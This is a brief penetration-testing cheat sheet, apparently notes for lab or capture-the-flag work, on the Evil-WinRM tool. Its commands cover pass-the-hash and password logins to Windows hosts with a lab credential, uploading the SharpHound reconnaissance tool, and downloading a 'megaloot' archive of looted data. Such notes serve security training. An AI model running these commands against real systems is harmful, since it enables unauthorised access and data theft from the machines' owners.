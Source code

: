 https://github.com/Hackplayers/evil-winrm
## Evil-WinRM
```
# Login with Hash
evil-winrm -i 192.168.100.101 -u username -H hash

# Login with Password
evil-winrm -i ghost.htb -u NT Service\MSSQLSERVER -p '1S@t'

upload SharpHound.exe

download megaloot.zip
```